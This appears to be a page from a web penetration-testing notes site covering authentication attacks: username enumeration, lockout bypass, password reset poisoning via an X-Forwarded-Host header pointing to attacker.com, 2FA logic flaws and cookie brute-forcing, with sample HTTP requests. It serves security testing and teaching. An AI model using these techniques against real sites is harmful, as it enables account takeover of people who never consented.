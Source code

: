 ```yaml
---
title: "Authentication"
weight: 2
---
```


# Authentication

## Username Enumeration

Finding valid usernames is the first step in many attacks. Test every feature interacting with user accounts (e.g., login, registration, password recovery).

{{< details summary="Common Default Usernames" >}}
Default usernames to test:

```sh
admin
administrator
root
firstname.lastname@somecompany.com
test
guest
```
{{< /details >}}

### Registration Form

If the application states "Account already exists" when registering a known email, it leaks user existence. 

### Response Comparison

Compare server responses when entering:
- A valid username with incorrect passwords
- An invalid username with incorrect passwords

Even minor differences in error messages can reveal valid usernames.

{{< hint style=tips >}}
**Tip**: Use Burp Suite's "Grep - Match" feature in Intruder to detect response variations.
{{< /hint >}}

### Response Timing Analysis

Some systems check passwords only if the username is valid. Sending an excessively long password may create a delay, indicating the username exists.

## Password Attacks

[Cracking passwords]({{< ref "misc/password-cracking" >}}) is a key part of authentication testing.


## Account Locking Mechanisms

Check if accounts lock after multiple failed attempts (e.g., 3 or 5 attempts). Understand the lockout mechanism:

- **Testing Responses**: Attempt logins with an incorrect password on a locked account, then with the correct password. If responses differ, the lock might be bypassable.
- **IP-Based Lockout**: The failed attempts counter resets if the IP owner logs in successfully. (Make sure that concurrent requests is set to 1)
Try bypassing with an `X-Forwarded-For` header.


## Password Reset Vulnerabilities

### Controlling the Username Parameter

If the reset request contains a `username` parameter, test if it can be changed:

```http
POST /forgot-password HTTP/2
Host: vulnerable-website.com

user=<victim>&new-pwd=NewPass123&token=xyz
```

### Predictable Password Reset URLs

Some sites use static or weakly random reset links. Test if a simple enumeration allows taking over accounts.

```http
http://vulnerable-website.com/reset-password?user=victim-user
```

### Hijacking Password Reset Links

Try injecting an `X-Forwarded-Host` header to change the reset link destination:

```http
POST /forgot-password HTTP/2
Host: vulnerable-website.com
X-Forwarded-Host: attacker.com

username=victim
```

## Two-Factor Authentication (2FA) Bypasses

### Brute-Forcing OTP

If the OTP code is short (e.g., 4-6 digits), brute-force it.

### Skipping 2FA Steps

Check if you can directly access logged-in pages without completing 2FA.

### Exploiting 2FA Logic Flaws
```http
# Step 1: Login with attacker account
POST /login HTTP/1.1
Host: vulnerable-website.com

username=attacker&password=qwerty
```

```http
# Step 2: Server sets a session cookie
HTTP/1.1 200 OK
Set-Cookie: session=attacker
```

```http
# Step 3: Request 2FA page with attacker's session
GET /login-steps/second HTTP/1.1
Cookie: session=attacker
```

```http
# Step 4: Submit the attacker's OTP using the victim's session
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: session=victim

verification-code=123456
```


## "Remember Me" Cookie Attacks

- Study how "Remember Me" cookies are generated (e.g., Base64 encoding or hashed values).
- Attempt brute-forcing attack.

## Password change

See if you can change the password of an arbitrary user. 
- Look for a hidden username parameter that you can control.
- Brute-force password when you enter your current password.
- Test all current & new password combinations.

```md
current password: <wrong>, new-password-1=XXX, new-password-2=XXX
current password: <wrong>, new-password-1=XXX, new-password-2=YYY
current password: <correct>, new-password-1=XXX, new-password-2=XXX
current password: <correct>, new-password-1=XXX, new-password-2=YYY
```